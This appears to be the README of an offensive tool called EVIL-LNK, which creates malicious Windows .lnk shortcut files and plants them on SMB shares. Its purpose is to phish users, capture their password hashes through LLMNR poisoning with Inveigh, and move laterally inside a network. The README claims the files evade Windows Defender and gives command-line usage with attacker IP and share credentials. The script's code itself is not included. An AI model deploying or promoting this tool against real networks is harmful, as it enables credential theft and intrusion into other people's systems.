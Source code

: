 ## Generate malicious .lnk

#### EVIL-LNK generates and uploads malicious .lnk files to SMB shares for lateral movement

.lnk are not flagged as malicious by windows defender which make them a great way to phish users if you have wrtite access to a smb share and move laterally.
Simply run the script from a windows host and wait for a user to click the shortcut file. If LLMNBR poisoning is possible you will receive a hash on Inveigh.

```
positional arguments:
  attacker_ip           The IP address of the attacker.
  share_name            The SMB share name.
  username              The SMB username.
  password              The SMB password.
  server_ip             The IP address of the SMB server.

Options:
  -h, --help            show this help message and exit
  --domain DOMAIN       The SMB domain (optional).
  --file_name FILE_NAME
                        The name of the generated .lnk file (optional).
```

### Examples

```python3 main.py <attacker_ip> <share_name> <username> <password> <server_ip> [--domain DOMAIN] [--file_name FILE_NAME]```

```python3 main.py 192.168.1.100 myshare myuser mypass 192.168.1.10 --domain mydomain --file_name custom_filename```

